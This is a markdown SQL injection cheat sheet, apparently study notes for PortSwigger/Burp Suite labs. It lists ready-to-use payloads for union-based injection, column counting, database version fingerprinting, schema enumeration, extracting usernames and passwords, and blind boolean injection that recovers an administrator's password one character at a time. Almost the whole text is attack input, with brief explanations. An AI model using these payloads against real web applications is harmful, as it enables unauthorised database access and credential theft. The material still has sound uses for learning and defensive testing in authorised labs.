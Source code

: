 ```markdown
### SQL Injection Cheat Sheet

[PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Union Attack

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

In a union attack, The same amout of data needs to be displayed as the output field on the website.

### Find the Number of Columns

```sql
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
```

If the number of `NULL`s doesn’t match the number of columns, you will get an error.

```sql
' UNION SELECT NULL--  
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
```

Use this to find the number of tables. Then check to find where different types of data can be printed.

```sql
' UNION SELECT 'a',NULL,NULL,NULL--  
' UNION SELECT NULL,'a',NULL,NULL--  
' UNION SELECT NULL,NULL,'a',NULL--  
' UNION SELECT NULL,NULL,NULL,'a'-- 
```

```sql
" || (SELECT GROUP_CONCAT(sql) FROM sqlite_schema) || " 
```

Conversion failed when converting the `varchar` value `'a'` to data type `int`.

### Find Data

```sql
' UNION SELECT username, password FROM users-- 
```

Combine two pieces of data in one column:

```sql
' UNION SELECT username || '~' || password FROM users-- 
```

### Finding Database Types

#### Microsoft, MySQL

```sql
SELECT @@version
```

#### Oracle

```sql
SELECT * FROM v$version
```

#### PostgreSQL

```sql
SELECT version()
```

```sql
' UNION SELECT @@version# 
' UNION SELECT @@version-- 
' UNION SELECT * FROM v$version-- 
' UNION SELECT version()-- 
```

### Types of SQL Comments

If `--` doesn’t work:

#### Oracle

```sql
--comment  
```

#### Microsoft

```sql
--comment 
/*comment*/  
```

#### PostgreSQL

```sql
--comment 
/*comment*/  
```

#### MySQL

```sql
#comment 
-- comment [Note the space after the double dash] 
/*comment*/ 
```

## Find What's in a Database

### List Tables and Table Info

```sql
SELECT * FROM information_schema.tables [won’t work for Oracle] 
```

### List Columns in Tables

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE' 
```

When needed, add `NULL` before or after the `*`.

If it only takes 2 inputs:

```sql
'UNION+SELECT NULL,TABLE_NAME FROM information_schema.tables-- 
```

## Blind SQL Injection

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm 
```

This will return `TRUE` if the first character of the admin's password is greater than `m`. Then you can do:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't 
xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a 
xyz' AND SUBSTRING((SELECT password FROM users WHERE Username = 'administrator'), 1, 1) > 't 
```

If this is false, it is less than `t`. Keep going until you find:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's 
```

It is true.

The `SUBSTRING` function is called `SUBSTR` sometimes.

### Find the Length of the Password

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a 
```

Then:

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a 
```

## Oracle

```sql
' UNION SELECT NULL FROM DUAL-- 
```

`DUAL` is a built-in Oracle database table.

## Burp Suite Labs

```sql
' UNION SELECT NULL,@@version# 
```

```sql
'+UNION+SELECT NULL,TABLE_NAME FROM information_schema.tables-- 
'+UNION+SELECT NULL,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users_tvqqei'-- 
'+UNION+SELECT username_smduqm || '~' || password_jxbxqv,NULL FROM users_tvqqei-- 
```
```

